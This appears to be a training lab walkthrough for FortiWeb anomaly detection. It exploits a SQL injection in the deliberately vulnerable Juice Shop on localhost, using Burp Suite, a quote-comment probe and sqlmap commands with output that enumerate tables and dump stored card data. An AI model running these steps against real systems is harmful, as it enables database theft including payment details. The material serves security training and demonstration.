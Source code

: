 # [Attack] Anomaly Detection

In this scenario you will attack an Web Shop Application with an SQL injection which can be blocked by FortiWeb Anomaly Detection. 

## Required Tools

- Web Browser (e.g. Firefox, Chrome, etc)
- Interception Proxy (e.g. [Burp Suite](https://portswigger.net/burp/communitydownload) or [OWASP ZAP](https://www.zaproxy.org/))
- [sqlmap](https://sqlmap.org/) tool

## Preparations

1. Connect to the Attacker System
2. Check that the required tools are already pre-installed
3. Browse to the Fortinet Juice Shop Website with the Web Browser on the Attacker System to very that the connection can be etablished

## Finding the vulnerability

For documentation purpose the Documentation will only cover Burp Suite and Firefox Web Browser attacking the Vulnerable application hosted on localhost port 3000. Please adjust the documentation with the information provided as needed.

1. Start the Burp Suite Application on the Attacker System.

   1. If requested, keep the default settings

   ![image-20220524140254165](image-20220524140254165.png)

   ![image-20220524140341089](image-20220524140341089.png)

   Select `Start Burp` at the top right corner and proceed.

2. To open the build in Browser, select the `Proxy` tab and the the `Intercept` Subtab

![image-20220524140851541](image-20220524140851541.png)

3. As a next step click on `Open Browser` to start the build in Browser.
4. now open the Fortinet Juice Shop Page again.

![image-20220524141017304](image-20220524141017304.png)

5. After opening the Webpage, switch back to the Burp Suite main Window
6. there select the `HTTP history` Subtab within the `Proxy` Tab

![image-20220524141413802](image-20220524141413802.png)

7. You will notice many HTTP calls loading various part of the Webshop we have open in he Browser earlier.
8. Scrolling through the list of the requests, you will notice a request against the URL `/rest/products/search?q=`

![image-20220524141605487](image-20220524141605487.png)

9. If you select the HTTP request you will notice, that at the bottom of the window some raw request & response details populate.
10. Do a right click in the raw request section and select `Send to Repeater` or press the key combination `Ctrl+R`
11. Now the `Repeater` tab will be highlighted. Switch over to the `Repeater` tab. The Repeater functionality of Burp Suite allows you to edit and Resend the raw HTTP request as often as you want without having to follow many manual steps compared to the Browser developer tools.

![image-20220524141936752](image-20220524141936752.png)

12. If you click on the `Send` button on the top left you will notice that on the right half of the Window the raw server response is displayed.

![image-20220524142342273](image-20220524142342273.png)

13. If you add a the following characters: `'--` as a search query (Url now looks like the following: `/rest/products/search?q='--`) in the request and resend it, you will notice an error message in the response of the server.

![image-20220524142800743](image-20220524142800743.png)

14. As the Server response indicates a SQL Injection vurlnerability, let' switch over to the tool called sqlmap which automates SQL injection attacks to exfiltrate Data or get a Shell on the Server.

## Leverage found Vulnerability

1. Switch over to the Terminal on your Attacker System.
2. Run sqlmap with the `-h` option from the command line to get the help output:

```bash
$ sqlmap -h
```

3. To exactly find out, which type of SQL injection exists within the Fortinet Webshop search, run sqlmap against the found URL and let it find itself the vulnerability. As we already have found out that the database back-end is `sqlite` let's provide this information to sqlmap to safe some unnecessary requests.

```bash
$ sqlmap -u "http://localhost:3000/rest/products/search?q="  --dbms=SQLite --technique=B --level 3 --batch
...[SNIP]...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
---
...[SNIP]...
```

4. Now that sqlmap is aware of the vulnerability, let's let sqlmap figure out a list of all tables in the database. to speed this up, also set the parameter `--threads 10`

```bash
$ sqlmap -u "http://localhost:3000/rest/products/search?q="  --technique=B --tables --threads 10
...[SNIP]...
<current>
[20 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+
...[SNIP]...
```

5. As you were able to extract all the table names of the current Database, you could now start extracting information from each Table. As an example the guide will show you how to extract all the existing Credit Card data:

```bash
$ sqlmap -u "http://localhost:3000/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump
...[SNIP]...
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] N
Database: <current>
Table: Cards
[6 entries]
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
| 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
| 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
| 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
...[SNIP]...
```

Depending on the data, sqlmap ask if the extracted data should be tried to cracked by a hashcracker. As it is not required for the demo you could skip this.

6. Step 5 could now be repeated as often as necessary to extract all the data from the different tables. Only the parameter `-T` has to be adjusted. 

7. Now please continue on how to secure the Webshop with FortiWeb Anomaly detection capabilities.